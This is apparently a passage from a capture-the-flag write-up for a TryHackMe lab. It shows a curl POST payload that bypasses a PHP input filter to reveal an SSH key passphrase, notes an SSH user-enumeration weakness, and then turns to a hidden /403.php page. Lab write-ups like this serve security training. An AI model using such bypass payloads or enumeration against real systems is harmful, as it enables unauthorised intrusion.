 ```bash
      
          }     
 
  }

 
?>
```

We can run the `echo $result` with the following payload

```bash
curl -XPOST http://10.10.54.216:8001/reg.php -d 'title="",",",","","""","",""""""","""'
```

It basically forbids the alphanumeric characters and The input is first splitted by `,` and array is created from the splitted string. It checks for some equal strings on some indexes. The above payload bypasses the code and we get a string 

```bash
Nice. Password : cimihan_are_you_here?
```

The password `cimihan_are_you_here?` is the passphrase to the ssh key. Now we need to find the username.

The SSH service has a user enumeration vulnerability. I tried running it on a wordlist (Names.txt on seclists ) but could not find the user.

## This took me a lot of time to figure out.

/403.php 

403.php page was not shown when accessing /web so there must be something here.

![/assets/images/TryHackMe/en_pass/Untitled%205.png](/assets/images/TryHackMe/en_pass/Untitled%205.png)
